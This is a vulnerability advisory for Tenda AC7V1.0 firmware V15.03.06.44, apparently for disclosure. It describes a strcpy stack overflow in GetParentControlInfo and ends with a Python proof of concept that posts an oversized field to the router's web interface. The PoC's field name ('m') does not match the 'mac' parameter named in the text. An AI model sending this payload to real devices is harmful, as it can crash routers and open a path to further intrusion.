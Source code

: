 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The Tenda  AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `GetParentControlInfo` function. The `mac_addr` variable receives the `mac` parameter from a POST request and is later assigned `pc_info->mac_addr` to by function `strcpy`. However, since the user can control the input of  `mac`, it can cause a stack overflow. The user-provided  `mac` can exceed the capacity of the `pc_info->mac_addr` array, triggering this security vulnerability.

![image-20240318184835919](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318184835919.png)

![image-20240318184824565](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318184824565.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/GetParentControlInfo"
payload = b"a"*1000

data = {"m": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318155045408](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155045408.png)